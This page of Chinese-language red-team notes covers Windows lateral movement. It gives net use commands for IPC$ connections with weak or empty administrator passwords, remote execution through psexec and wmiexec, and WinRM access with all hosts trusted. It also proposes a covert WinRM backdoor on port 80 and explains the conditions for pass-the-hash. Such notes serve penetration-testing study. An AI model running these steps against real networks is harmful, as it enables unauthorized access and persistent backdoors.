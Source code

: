 **IPC$ 的利用条件**

- 139，445 端口开启
- 管理员开启了默认共享

**攻击方式**
```bash
net use \\192.168.1.1\c$ “12345@12345qw” /user:ffffffff0x\administrator
net use \\192.168.1.1\c$ "123456" /user:administrator         # 建立的非空连接
net use \\192.168.1.1\c$  "" /user:administrator              # 空连接，无密码
net use \\192.168.1.1\c$ /del   # 删除建立的 IPC 连接
net use                         # 查看本机连接共享情况

psexec.exe \\192.168.1.1 cmd    # 通过 psexec 工具进行会话连接执行
psexec.exe \\192.168.1.1 cmd -u administrator -p 123456

csript.exe wmiexec.vbs /shell 192.168.1.1 administrator 123456
```

---

### WinRM

关于 WinRM 的基本知识点可见笔记 [WinRM](../../../Integrated/Windows/笔记/WinRM.md)

cmd 下,本地也配置允许任意机器连接,然后访问远程主机 winrm
```
Winrm quickconfig
winrm set winrm/config/client @{TrustedHosts="*"}
winrs -r:http://192.168.1.1:5985 -u:administrator -p:Abcd12345 ipconfig
```

在 IIS 监听 80 端口的情况下，可以通过设置 WinRM 监听端口为 80，再设置监听 URI 的方式来复用 80 端口。以此作为隐蔽的后门。

---

### PTH

path-the-hash,中文直译过来就是 hash 传递，在域中是一种比较常用的攻击方式。

利用前提是我们获得了某个用户的密码哈希值，但是解不开明文。这时我们可以利用 NTLM 认证的一种缺陷，利用用户的密码哈希值来进行 NTLM 认证。在域环境中，大量计算机在安装时会使用相同的本地管理员账号和密码。因此，如果计算机的本地管理员账号密码相同，攻击者就能使用哈希传递攻击登录内网中的其他机器，扩展权限。

**相关文章**
- [hash传递攻击研究](http://sh1yan.top/2019/05/19/Hash-Passing-Attack-explore/)
- [Passing-the-Hash to NTLM Authenticated Web Applications](https://labs.f-secure.com/blog/pth-attacks-against-ntlm-authenticated-web-applications/) - PTH 在 Web 应用中的应用
- [浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/)
- [KB22871997是否真的能防御PTH攻击？](https://www.anquanke.com/post/id/193150)
- [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)
- [【技术分享】从hash传递攻击谈相关Windows安全机制](https://www.anquanke.com/post/id/85995)

**攻击适用情况**
- 在工作组环境中：
    - Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
    - Vista 之后的机器，只能是 administrator 用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非 administrator)也不能使用哈希传递攻击，会提示拒绝访问。
- 在域环境中
    - 只能是域管理员组内用户(可以是域管理员组内非 administrator 用户)的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器。

